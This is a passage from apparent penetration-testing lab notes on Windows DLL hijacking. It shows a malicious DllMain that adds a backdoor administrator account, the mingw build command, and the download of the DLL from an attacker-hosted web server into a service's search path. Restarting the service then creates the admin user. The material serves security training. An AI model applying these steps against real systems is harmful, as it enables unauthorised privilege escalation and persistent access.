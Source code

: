 ``` c++
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Now, let's cross-compile the code with _mingw_
+ We use the same command as in the previous section but change the input code file, the output name, and add **--shared** to specify that we want to build a DLL:
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

Once the DLL is compiled, we can transfer it to CLIENTWK220
+ We can start a Python3 web server on Kali in the directory the DLL is located in and use **iwr** in a PowerShell window on the target machine
+ Before we download the file, we change our current directory to the **Documents** folder of _steve_ to download it into the correct directory for our attack
+ Additionally, we confirm that _dave2_ doesn't exist yet on the system with the **net user** command
```
PS C:\Users\steve> cd Documents

PS C:\Users\steve\Documents> iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll

PS C:\Users\steve\Documents> net user
User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
daveadmin                DefaultAccount           Guest
offsec                   steve                    WDAGUtilityAccount
The command completed successfully.
```

**myDLL.dll** is now located in the **Documents** folder of _steve_, which is the first path in the DLL search order
+ After we restart _BetaService_, our DLL should be loaded into the process and the code to create the user _dave2_ as member of the local _Administrators_ group in _DLL_PROCESS_ATTACH_ should be executed
```
PS C:\Users\steve\Documents> Restart-Service BetaService
WARNING: Waiting for service 'BetaService (BetaService)' to start...
WARNING: Waiting for service 'BetaService (BetaService)' to start...

PS C:\Users\steve\Documents> net user
User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.
```